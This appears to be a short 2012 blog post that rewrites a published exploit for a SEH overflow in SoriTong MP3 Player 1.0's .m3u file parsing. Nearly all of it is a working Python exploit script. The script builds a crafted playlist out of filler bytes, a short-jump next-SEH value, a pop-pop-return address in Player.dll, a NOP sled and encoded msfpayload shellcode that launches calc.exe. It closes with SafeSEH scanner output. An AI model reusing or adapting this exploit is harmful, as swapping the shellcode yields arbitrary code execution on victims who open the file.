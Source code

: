 SoriTong MP3 Player .m3u File Parsing SEH Overflow
==================================================
date: 02/Sep/2012
summary: SoriTong MP3 Player SEH overflow via a pop-pop-return overwrite.
tags: code, exploit

## Introduction

SoriTong MP3 Player version 1.0 is prone to a SEH overflow vulnerability. Processing specially-crafted `.m3u` file could trigger a SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documented at [EDB: 8624](http://www.exploit-db.com/exploits/8624/)

## Exploit Code

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb8624.m3u"

# msfpayload windows/exec CMD=calc.exe EXITFUNC=seh R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1)

calc = ("\xbb\x34\x46\x73\x3a\xda\xd2\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x12\x83\xea\xfc\x03\x6e\x48\x91\xcf\x72" +
"\xbc\xdc\x30\x8a\x3d\xbf\xb9\x6f\x0c\xed\xde\xe4\x3d\x21" +
"\x94\xa8\xcd\xca\xf8\x58\x45\xbe\xd4\x6f\xee\x75\x03\x5e" +
"\xef\xbb\x8b\x0c\x33\xdd\x77\x4e\x60\x3d\x49\x81\x75\x3c" +
"\x8e\xff\x76\x6c\x47\x74\x24\x81\xec\xc8\xf5\xa0\x22\x47" +
"\x45\xdb\x47\x97\x32\x51\x49\xc7\xeb\xee\x01\xff\x80\xa9" +
"\xb1\xfe\x45\xaa\x8e\x49\xe1\x19\x64\x48\x23\x50\x85\x7b" +
"\x0b\x3f\xb8\xb4\x86\x41\xfc\x72\x79\x34\xf6\x81\x04\x4f" +
"\xcd\xf8\xd2\xda\xd0\x5a\x90\x7d\x31\x5b\x75\x1b\xb2\x57" +
"\x32\x6f\x9c\x7b\xc5\xbc\x96\x87\x4e\x43\x79\x0e\x14\x60" +
"\x5d\x4b\xce\x09\xc4\x31\xa1\x36\x16\x9d\x1e\x93\x5c\x0f" +
"\x4a\xa5\x3e\x45\x8d\x27\x45\x20\x8d\x37\x46\x02\xe6\x06" +
"\xcd\xcd\x71\x97\x04\xaa\x80\x66\x95\x26\x14\xd1\x4c\x0b" +
"\x78\xe2\xba\x4f\x85\x61\x4f\x2f\x72\x79\x3a\x2a\x3e\x3d" +
"\xd6\x46\x2f\xa8\xd8\xf5\x50\xf9\xba\x98\xc2\x61\x13\x3f" +
"\x63\x03\x6b")

junk = "\xCC"*260
nseh = pack ('<I', 0x909032EB)         # short jump 50B
cseh = pack ('<I', 0x1001CFDA)         # p/p/r 1001CFDA Player.dll
nops = "\x90"*80

sploit = junk+nseh+cseh+nops+calc

try:
    handle = open (file, 'w')
    handle.write (sploit)
    handle.close ()
    print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
    print "[-] exception!"

'''
/SafeSEH Module Scanner, item 33
 SEH mode=/SafeSEH OFF
 Base=0x10000000
 Limit=0x10094000
 Module Name=Player.dll
'''
```
